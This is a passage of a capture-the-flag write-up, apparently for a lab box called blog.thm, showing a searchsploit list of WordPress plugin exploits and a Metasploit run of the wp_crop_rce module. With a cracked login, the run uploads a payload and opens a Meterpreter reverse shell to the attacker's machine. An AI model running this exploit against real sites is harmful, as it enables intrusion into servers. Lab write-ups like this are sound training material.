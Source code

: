 ```
WordPress Plugin leenk.me 2.5.0 - Cross-Site Request Forgery / Cross-Site Scripting                                                                                              | php/webapps/39704.txt
WordPress Plugin Marketplace Plugin 1.5.0 < 1.6.1 - Arbitrary File Upload                                                                                                        | php/webapps/18988.php
WordPress Plugin Network Publisher 5.0.1 - 'networkpub_key' Cross-Site Scripting                                                                                                 | php/webapps/37174.txt
WordPress Plugin Nmedia WordPress Member Conversation 1.35.0 - 'doupload.php' Arbitrary File Upload                                                                              | php/webapps/37353.php
WordPress Plugin Quick Page/Post Redirect 5.0.3 - Multiple Vulnerabilities                                                                                                       | php/webapps/32867.txt
WordPress Plugin Rest Google Maps < 7.11.18 - SQL Injection                                                                                                                      | php/webapps/48918.sh
WordPress Plugin WP-Property 1.35.0 - Arbitrary File Upload                                                                                                                      | php/webapps/18987.php
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```
### Metasploit

The `crop-image` exploit is on metasploit, we can find it using `msfconsole`:
```
msf5 > search crop-image

Matching Modules
================

   #  Name                            Disclosure Date  Rank       Check  Description
   -  ----                            ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_crop_rce  2019-02-19       excellent  Yes    WordPress Crop-image Shell Upload
```
so easy, just `use exploit/multi/http/wp_crop_rce` and then view options with `options` and set as needed.

the whole process looks like this:
```bash
msf5 exploit(multi/http/wp_crop_rce) > set PASSWORD ******
PASSWORD => ******
msf5 exploit(multi/http/wp_crop_rce) > set RHOSTS IP
RHOSTS => 10.10.4.221
msf5 exploit(multi/http/wp_crop_rce) > set VHOST blog.thm
VHOST => blog.thm
msf5 exploit(multi/http/wp_crop_rce) > set USERNAME kwheel
USERNAME => kwheel
msf5 exploit(multi/http/wp_crop_rce) > exploit

[*] Started reverse TCP handler on 10.8.147.71:4444 
[*] Authenticating with WordPress using kwheel:cutiepie1...
[+] Authenticated with WordPress
[*] Preparing payload...
[*] Uploading payload
[+] Image uploaded
[*] Including into theme
[*] Sending stage (38247 bytes) to 10.10.4.221
[*] Meterpreter session 1 opened (10.8.147.71:4444 -> 10.10.4.221:43512) at 2021-01-21 14:14:54 -0500
[*] Attempting to clean up files...
```